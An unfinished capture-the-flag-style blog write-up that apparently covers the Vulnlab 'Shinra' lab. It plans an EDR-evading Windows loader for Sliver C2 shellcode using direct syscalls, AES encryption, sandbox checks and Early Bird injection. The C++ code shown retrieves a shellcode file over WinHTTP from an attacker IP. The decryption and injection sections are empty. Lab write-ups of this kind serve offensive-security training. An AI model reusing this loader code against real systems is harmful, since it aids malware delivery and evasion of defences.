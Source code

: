 ```yaml
---
title: VL Shinra - Writing a loader
date: 2024-01-27
categories: [Vulnlab]
tags: [CTF, Windows, Labs, EDR, Evasion, Sliver]
pin: false
---
```


**I never finished writing this, accidently commited it with posting another writeup so enjoy something that is not finished, hopefully it will help :D**

## Loader design
Before we start with the fun stuff we first have to decide what our goals are and what we need to achieve them.
We need to make a .exe as the email by HR stated they would like the HR tool mailed to them again.

We will be using the Sliver C2 framework throughout this lab so we will use the shellcode of Sliver without obfuscation offered by Sliver.
Sliver is written in Golang and even the shellcode is huge so retrieving this remotely would be nice and gives us flexebility when we need to change anything to our shellcode. 

XCT creaed a [Opsec Consideration](https://wiki.vulnlab.com/lab-notes/misc/opsec-considerations) page so we will be using these recommendations:
- SysWhisperer3
- Early Bird
- Keeping memory RX

In addition to this we will add some additional features such as:
- Encrypted shellcode with AES
- Sandbox escaping by verifying the username

Throughout this writeup we will be writing in C++ and a little bit of Python.

## SysWhisperer3 Direct Syscalls
We start with generating the neccesary files for our direct syscalls with [SysWhisperer3](https://github.com/klezVirus/SysWhispers3).
This project supports both direct and indirect syscalls, the main difference between these two is the way the syscall is made. With direct syscalls the syscall will be performed from our own .exe instead of going through NTDLL first which is abnormal and can be an IoC. Indirect syscalls solves this problem by making the syscalls via NTDLL instead of from our own .exe. A great source to get more details on this is the amazing [blogpost from RedOps](https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls).

Once the repo is on your dev VM, we can generate the required syscalls with the following command:
```
python .\syswhispers.py --preset common -o <path/to/your/project/syscalls_common>
```

This will create a couple of new files:
![syscall-common](assets/img/vl-shinra/image.png)


## Remote Shellcode
We will first start with building function that should retrieve our shellcode. Microsoft has some amazingly documented WinAPIs for this [WinHttp](https://learn.microsoft.com/en-us/windows/win32/winhttp/winhttp-sessions-overview).

We start with defining some macros to make it easier to reuse the code:
```cpp
#define URL L"10.8.0.69"
#define FILENAME L"bushi.bin"
#define HOST_HEADER L"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0"
```

The first two are self explaining, the header is a good practise to always add since many enterprises do not allow requests to the internet without host-headers.
We now start following the docs and slowly build our GET request.

We first will be calling [WinHttpOpen](https://learn.microsoft.com/en-us/windows/win32/api/winhttp/nf-winhttp-winhttpopen), the return value states that it will return a session handle if succesful and otherwise NULL:
```cpp
HANDLE hInternet = WinHttpOpen(HOST_HEADER, WINHTTP_ACCESS_TYPE_NO_PROXY, WINHTTP_NO_PROXY_NAME, nullptr, 0);
if (hInternet == nullptr) {
    printf("[!] WinHttpOpen failed with %lu \n", GetLastError());
    exit(0);
}
```

We can now use [WinHttpConnect](https://learn.microsoft.com/en-us/windows/win32/api/winhttp/nf-winhttp-winhttpconnect) to specify our target URL and some extra options:
```cpp
    HANDLE hConnect = WinHttpConnect(hInternet, URL, INTERNET_DEFAULT_HTTP_PORT, 0);
    if (hConnect == nullptr) {
        printf("[!] WinHttpConnect failed with %lu \n", GetLastError());
        exit(0);
    }
```

[WinHttpOpenReuqest](https://learn.microsoft.com/en-us/windows/win32/api/winhttp/nf-winhttp-winhttpopenrequest) opens a HTTP request for our resourcen and returns a handle which we need to actually send the request.
```cpp
    HANDLE hRequest = WinHttpOpenRequest(hConnect, L"GET", FILENAME, nullptr, nullptr, nullptr, 0);
    if (hRequest == NULL) {
        printf("[!] WinHttpOpenRequest failed with %lu \n", GetLastError());
        exit(0);
    }
```

We do not need to add extra request headers so we can skip over WinHttpAddRequestHeaders and go straight to [WinHttpSendRequest](https://learn.microsoft.com/en-us/windows/win32/api/winhttp/nf-winhttp-winhttpsendrequest):
```cpp
    BOOL Status = WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
    if (Status == FALSE) {
        printf("[!] WinHttpSendRequest failed with %lu \n", GetLastError());
    }
```
Now our request is send we somehow have to get the data we need, we will be using WinHttpReceiveResponse and WinHttpReadData for that

## Decrypting our shellcode

## Early Bird Injection